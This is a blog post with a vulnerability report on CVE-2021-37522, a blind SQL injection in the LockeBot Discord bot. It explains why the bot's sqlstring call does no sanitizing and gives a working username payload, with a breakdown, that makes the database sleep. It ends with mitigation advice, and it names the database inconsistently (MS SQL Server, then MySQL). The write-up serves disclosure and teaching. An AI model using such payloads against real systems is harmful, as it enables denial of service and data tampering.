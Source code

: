 ```yaml
---
layout: default
title:  "CVE-2021-37522 SQLi in Locke-Bot"
date:   2021-10-16 22:45:45 -0600
categories: jekyll update
---
```


# CVE-2021-37522 

This is a report I wrote for the developer of LockeBot, I hope you learn something from it :)

# Background

Multiple vulnerable functions and queries are found in the source code of [LockeBot 2.0.2](https://github.com/HKing2802/Locke-Bot/) which are susceptible to blind SQL injections.

## Why is this the case?

The application is vulnerable due to the fact that certain SQL queries include values which are controlled by the user with no sanitization and no prepared statements. The library that is supposed to mitigate this vulnerability and sanitize input is not implemented correctly in the bot. The library/module used for sanitization is called `sqlstring` and in it we can find the following function:

{% highlight javascript %}
SqlString.format = function format(sql, values, stringifyObjects, timeZone) {
  if (values == null) {
    return sql;
  }

  if (!Array.isArray(values)) {
    values = [values];
  }

  var chunkIndex        = 0;
  var placeholdersRegex = /\?+/g;
  var result            = '';
  var valuesIndex       = 0;
  var match;

  while (valuesIndex < values.length && (match = placeholdersRegex.exec(sql))) {
    var len = match[0].length;

    if (len > 2) {
      continue;
    }

    var value = len === 2
      ? SqlString.escapeId(values[valuesIndex])
      : SqlString.escape(values[valuesIndex], stringifyObjects, timeZone);

    result += sql.slice(chunkIndex, match.index) + value;
    chunkIndex = placeholdersRegex.lastIndex;
    valuesIndex++;
  }

  if (chunkIndex === 0) {
    // Nothing was replaced
    return sql;
  }

  if (chunkIndex < sql.length) {
    return result + sql.slice(chunkIndex);
  }

  return result;
};
{% endhighlight %}

Now, if we check the file `db.js` in LockeBot that is under the `/src` directory, we will find that this is the function being called to sanitize every query.

{% highlight javascript %}
function buildQuery(query) {
    if (!CONNECTED) throw Error('Not connected to a Database');
    return session.sql(SqlString.format(query));
}
{% endhighlight %}

## So what's the issue?

If we look closely at `SqlString.format`'s fuction body we can see that the first operation being done is an if statement:
{% highlight javascript %}
if (values == null) {
  return sql;
}
{% endhighlight %}

What this means is that if no values are fed into the `values` parameter, it will just return the sql value with no sanitization!

Now we take a look at LockeBot's implementation of this function again:
{% highlight javascript %}
return session.sql(SqlString.format(query));
{% endhighlight %}

No values are being passed! this is good ( for us at least :D ), it means that the bot is vulnerable to SQL Injection.

# Exploitation

While looking through the code I found a query under `/commands/mute.js` which grabs the user's discord username which is unsafely passed as a template literal. And of course there's also the issue of no sanitization occurring.

Exploiting this query is a bit difficult, since discord's username character limit is 32 there's barely any space to play around with. I was still able to exploit this vulnerability, but it wasn't as impactful as I would've liked it to be. However I'm sure there's queries in there that can be exploited more easily, and with much more impact.

This is what the query in question looks like:

{% highlight javascript %}
db.buildQuery(`INSERT INTO muted_users(user_id, name, member, time_unmute) VALUES (${target.id}, '${target.user.username}', ${member}, ${timeUnmute})`)
            .execute()
            .catch(err => { log(`Error in querying database in mute: ${err}`, message.client, false, 'error'); });
{% endhighlight %}

From here we can start building our payload. My first payload looked something like `',0,NULL); DO SLEEP(99)-- n`, however that didn't work since the bot was using MS SQL Server.

In the end the final payload that worked was: `', 0, (SELECT SLEEP(99))) -- n`

This payload will make the database "SLEEP" for 99 seconds which will stop any incoming queries from happening in that time.

## Breaking down the payload

The query should look something like this once you set the payload as your username and are then muted by an admin or mod:
{% highlight sql %}
INSERT INTO muted_users(user_id, name, member, time_unmute) VALUES (12345678, '', 0, (SELECT SLEEP(99))) -- n', 0, '2038-01-19 03:14:07')
{% endhighlight %}

The payload is exactly 30 characters which is within our limit of 32 characters. to comment the rest of the query out to avoid any SQL syntax errors we use `-- n` (the 'n' at the end is needed, otherwise discord gets rid of the trailing spaces) due to the DBMS used by the bot which is MySQL we are forced to sacrifice 2 characters for the `--` comment since otherwise it causes a syntax error.
NOTE: we aren't able to use `#` in this payload since discord won't let us put that character in our username.

Let's move on to the juicy bit `', 0, (SELECT SLEEP(99)))  -- n`
I'll make this one short

| Syntax      | Description |
| ----------- | ----------- |
| '      | Closes the username string column value so we can inject SQL |
| 0 | We set the member value to 0 |
| (SELECT SLEEP(99) | makes the DBMS sleep for 99 seconds |
| )) | Closes all the opened parentheses |
|  -- n | Comments out the trailing query |

# Impact

In this particular instance even though the limitations are many I was still able to execute a query that was decently impactful, if it wasn't for the 32 character limit I would've been able to drop tables, overwrite data, etc. Again, I'm sure there's other queries that might be a better target to be exploited.

# Mitigation
This whole thing wouldn't have happened if prepared statements were used, or if the `sqlstring` library was used properly.

In the `README.md` file we can find proper use of the functions within:
{% highlight javascript %}
var userId = 1;
var sql = SqlString.format('SELECT * FROM users WHERE id = ?', [userId]);
console.log(sql); // SELECT * FROM users WHERE id = 1
{% endhighlight %}

